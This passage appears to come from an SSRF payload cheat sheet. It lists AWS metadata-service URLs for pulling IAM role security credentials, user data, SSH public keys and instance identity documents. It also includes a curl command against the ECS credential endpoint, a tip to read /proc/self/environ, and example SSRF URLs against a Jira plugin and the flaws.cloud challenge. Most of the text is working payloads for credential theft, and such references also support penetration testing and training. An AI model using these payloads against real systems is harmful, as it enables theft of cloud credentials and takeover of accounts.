 
These URLs return a list of IAM roles associated with the instance. You can then append the role name to this URL to retrieve the security credentials for the role.

```
http://169.254.169.254/latest/meta-data/iam/security-credentials
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]

# Examples
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
```

This URL is used to access the user data that was specified when launching the instance. User data is often used to pass startup scripts or other configuration information into the instance.

```
http://169.254.169.254/latest/user-data
```

Other URLs to query to access various pieces of metadata about the instance, like the hostname, public IPv4 address, and other properties.

```
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/dynamic/instance-identity/document
```

E.g: Jira SSRF leading to AWS info disclosure - `https://help.redacted.com/plugins/servlet/oauth/users/icon-uri?consumerUri=http://169.254.169.254/metadata/v1/maintenance`

E.g2: Flaws challenge - `http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/`

**SSRF URL for AWS ECS**

If you have an SSRF with file system access on an ECS instance, try extracting `/proc/self/environ` to get UUID.

```
curl http://169.254.170.2/v2/credentials/<UUID>
```

This way you'll extract IAM keys of the attached role

**SSRF URL for AWS Elastic Beanstalk**

We retrieve the `accountId` and `region` from the API.

```
http://169.254.169.254/latest/dynamic/instance-identity/document
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
```
